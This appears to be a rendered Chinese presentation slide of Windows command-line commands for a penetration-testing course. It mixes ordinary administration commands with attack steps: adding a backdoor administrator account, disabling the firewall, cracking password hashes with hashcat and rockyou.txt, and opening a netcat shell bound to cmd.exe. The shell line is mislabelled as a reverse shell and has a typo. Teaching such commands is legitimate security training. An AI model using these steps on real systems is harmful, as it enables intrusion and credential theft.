

# Windows基础命令
net localgroup Users
net localgroup Administrators  net localgroup administrators ceshi /add
Net user ceshi pass /add
Systeminfo 查看系统信息
query user 在线用户
logoff　ID 剔除用户
netstat -an | find “3389″ 查看在线端口
Sc query
Sc qc services
route print 查看路由表
net start 查看开机启动服务
netsh firewall show config 防火墙配置
netsh firewall show state 防火墙状态
netsh firewall set opmode disable  关闭防火墙
hashcat -m 400 -a 0 hash /root/rockyou.txt Hashcat 破解密码
nc -Lp 31337 -vv -e cmd.exe 反弹shell 攻击机 nv target_ip 31337
56